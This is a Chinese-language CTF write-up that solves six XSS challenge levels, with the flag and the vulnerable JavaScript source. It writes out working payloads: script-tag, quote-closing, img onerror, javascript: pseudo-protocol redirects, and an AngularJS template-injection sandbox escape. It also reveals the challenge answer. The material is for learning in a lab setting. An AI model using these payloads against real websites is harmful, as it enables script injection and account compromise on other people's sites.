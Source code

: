 ```yaml
---
Author: SuperJason
Date: 2020-12-20
---
```


## flag
`n1book{xss_is_so_interesting}`

## 思路
1. 访问环境，依次闯关  
![](./images/xss-1.png)
2. level1，直接构造`username=<script>alert(1)</script>`  
![](./images/xss-2.png)
3. level2，查看源码，用`'`闭合前面的`xss`，`//`注释掉后面的`';`，构造`username=xss';alert(1);//`  
![](./images/xss-3.png)
3. level3，构造不存在的img源`<img src=1 onerror=alert(1)>`  
4. level4，10s会重定向，分析源码需要传入`jumpUrl`参数，使用伪协议`?jumpUrl=javascript:alert(1)`
```javascript
var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
```
6. level5，分析源码，传入`action`和`autosubmit`，构造`?action=javascript:alert(1)&autosubmit=1`
```javascript
if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{
    		
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
```
7. level6，AngularJS模板注入，参考资料：[AngularJS模板注入XSS](https://nosec.org/home/detail/4153.html)   
![](./images/xss-4.png)

获得payload：  
`?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}`

## 总结
XSS的考察点
- 基础  
`<script>alert(1)</script>`
- 闭合，用`'`闭合前面的`'`，`//`注释掉后面的参数  
`username=xss';alert(1);//`
- 不存在的img源  
`<img src=1 onerror=alert(1)>`
- Javascript伪协议  
`javascript:alert(1)`
- 都无解的情况下，考虑模板注入`{{3*3}}`，此处为AngularJS模板注入  
`{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}`